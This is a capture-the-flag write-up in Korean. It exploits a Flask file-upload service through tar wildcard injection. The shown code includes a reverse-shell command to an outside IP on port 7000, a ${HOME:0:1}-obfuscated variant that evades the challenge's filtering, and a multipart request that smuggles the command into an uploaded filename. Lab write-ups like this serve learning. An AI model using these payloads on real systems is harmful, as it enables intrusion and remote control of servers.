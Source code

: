 
- 세션관리를 `uuid`로 관리하지만, 문제 풀이와는 딱히 관련이 없었음
``` python
# ensure each user has a uuid session
@app.before_request
def check_uuid():
    uuid_cookie = request.cookies.get('uuid', None)

    # ensure user has uuid_cookie
    if uuid_cookie is None:
        response = make_response(redirect('/'))
        response.set_cookie('uuid', str(uuid.uuid4()))
        return response
    
    # ensure uuid_cookie is valid UUID
    try:
        uuid.UUID(uuid_cookie)
    except ValueError:
        response = make_response(redirect('/'))
        response.set_cookie('uuid', str(uuid.uuid4()))
        return response
    
    g.uuid = uuid_cookie

    if not os.path.exists(f'uploads/{g.uuid}'):
        os.mkdir(f'uploads/{g.uuid}')
```


---
### Strategy
- 처음 접해봤는데 구글링해보니까 `Tar Wildcard Injection`이라는 기법이 있었음
- [참고사이트](!https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)
- 간단히 설명하면 Wildcard 문자를 사용하면 `tar` 명령은 특정 패턴과 일치하는 모든 파일을 포함하게 되는데, 예를 들어, 공격자가 시스템에 `--checkpoint-action=exec=sh exploit.sh` 와 같은 파일명을 생성하면, tar가 이 패턴과 일치하는 파일을 찾을 때 공격자의 스크립트가 실행되게 할 수 있다는 점을 이용한 취약점임


- 파일을 서버에 올리고 해당 파일을 실행하게 하는 방식인데, 문제는 개발자가 파일 내용을 저장하지 않게 코딩해서 파일 내용이 저장이 안됨 그래서 스크립트를 실행해도 빈 깡통이 실행되기 때문에 실패임
```sh
echo "#! /bin/bash" > shell.sh
echo "bash -c 'bash -i >& /dev/tcp/211.250.216.249/7000 0>&1'" >> shell.sh
echo "" > "--checkpoint-action=exec=./shell.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
```

- 파일을 실행시키는 게 아니라 해당 파일에서 실행하는 내용을 바로 파일이름에서 실행되게 만들었음
- 그런데 이렇게 해도 문제가 있는데, tar가 실행될 때 `${HOME:0:1}`이런 쉘 변수 또는 쉘 명령어는 실행이 안되게 막아놨음
```sh
bash -c 'bash -i >& ${HOME:0:1}dev${HOME:0:1}tcp${HOME:0:1}211.250.216.249${HOME:0:1}7000 0>&1'

------WebKitFormBoundaryAjTL5kBMBhp9vuJL
Content-Disposition: form-data; name="file"; filename="--checkpoint-action=exec=bash -c 'bash -i >& ${HOME:0:1}dev${HOME:0:1}tcp${HOME:0:1}211.250.216.249${HOME:0:1}7000 0>&1'"
Content-Type: text/x-sh
```
